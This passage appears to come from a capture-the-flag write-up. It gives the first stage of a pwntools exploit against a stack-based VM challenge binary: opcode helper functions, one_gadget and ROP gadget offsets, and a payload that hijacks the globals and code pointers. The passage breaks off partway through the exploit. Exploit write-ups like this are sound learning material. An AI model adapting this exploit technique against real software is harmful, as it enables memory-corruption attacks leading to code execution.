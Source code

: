 ### Actual exploit

```python
#just to interact with the binary
def vm_halt():
    return p32(18)

def vm_push(value):
    return p32(9) + p32(value)

def vm_pop(times=1):
    return p32(15)*times

def vm_gload(offset):
    return p32(11) + p32(offset)


#value is on the stack
def vm_gstore(offset):
    return p32(13) + p32(offset)

def vm_load(offset):
    return p32(10) + p32(offset)

def vm_store(offset):
    return p32(12) + p32(offset)

def vm_add():
    return p32(1)

IP_MOST_SIGNIFICANT = 0 
IP_LEAST_SIGNIFICANT = 1 
RET_MAIN_LEAST = 134 
ONE_GADGET_OFFSET=0xbfbcb 
FIRST_GADGET_OFFSET=0xbaa7 
GLOBALS_LEAST=5 
SECOND_GADGET_OFFSET=0xac13d 
RET_MAIN_LEAST_STORED=9 
RET_MAIN_MOST_STORED=10
```

I have defined some functions to help me send the correct instructions to the vm. Also, I defined some constants to help me with the offset handling.
It is worth mentioning, the the code buffer is a integer buffer and integers are 4 bytes (32 bits) long, hence I use the p32 function from pwntools.
We will start by moving the stack pointer to the code pointer, while storing the globals pointer to be reset later. After storing the code pointer in the callstack, we set the globals to point to the same place as code. This first part of the exploit is shown bellow.

```python
#stores the globals locally pointer to later reset it to its original value
# stores ip address value locally
payload += vm_pop() + vm_store(GLOBALS_MOST) + vm_store(GLOBALS_LEAST) + vm_pop(2)  + vm_store(IP_MOST_SIGNIFICANT) + vm_store(IP_LEAST_SIGNIFICANT)
# overwrites ip with the same address to keep it
payload += vm_load(IP_LEAST_SIGNIFICANT) + vm_load(IP_MOST_SIGNIFICANT) + vm_push(0x80) + vm_push(0)
# overwrites the globals pointer to be the same as the ip address
payload += vm_load(IP_LEAST_SIGNIFICANT) + vm_load(IP_MOST_SIGNIFICANT)
#stores main return value
payload += vm_gload(RET_MAIN_LEAST) + vm_store(RET_MAIN_LEAST_STORED) +vm_gload(RET_MAIN_LEAST+1) + vm_store(RET_MAIN_MOST_STORED)
```
